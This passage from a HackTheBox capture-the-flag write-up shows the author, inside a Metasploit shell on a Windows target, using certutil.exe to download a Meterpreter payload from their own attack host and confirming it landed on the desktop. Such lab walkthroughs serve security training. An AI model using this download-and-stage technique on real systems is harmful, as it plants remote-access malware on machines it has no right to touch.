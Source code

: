 Let's go back to the regular shell and download our hosted `meterpreter.exe`. We can refer to our old attempt on HTB, [Devel](https://github.com/HippoEug/HackTheBox/blob/main/Devel.md) where we used `certutil.exe` to download the payload.
```
msf5 > sessions -i 1
[*] Starting interaction with 1...

C:\Users\kostas\Desktop>certutil.exe -urlcache -split -f "http://10.10.14.15:80/meterpreter.exe" meterpreter.exe
certutil.exe -urlcache -split -f "http://10.10.14.15:80/meterpreter.exe" meterpreter.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

23/01/2021  04:59 ��    <DIR>          .
23/01/2021  04:59 ��    <DIR>          ..
18/03/2017  02:11 ��           760.320 hfs.exe
23/01/2021  05:04 ��             7.168 meterpreter.exe
               2 File(s)        767.488 bytes
               2 Dir(s)  31.897.223.168 bytes free
```
We got our payload in successfully! However, the original flag is gone. Some guy must have deleted it.
